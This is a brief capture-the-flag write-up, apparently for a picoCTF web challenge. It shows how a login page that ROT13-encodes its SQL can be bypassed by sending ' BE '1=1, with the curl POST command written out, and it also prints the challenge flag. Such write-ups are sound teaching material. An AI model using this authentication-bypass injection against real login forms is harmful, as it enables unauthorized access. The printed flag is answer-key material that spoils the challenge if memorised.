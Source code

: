 # Solution

Admin page only requires us to key in the password.

When we enable `debug=1`, we see that the generated SQL is encrypted.

```
aaa -> nnn # This is a classic ROT13 cipher
```

Let's encrypt our SQL text using ROT13 to get `' BE '1=1`

Create a new POST request with our encrypted text.

```
$ curl 'https://jupiter.challenges.picoctf.org/problem/29132/login.php' --data "password=' BE '1=1&debug=1"
```

And our flag `picoCTF{3v3n_m0r3_SQL_06a9db19}`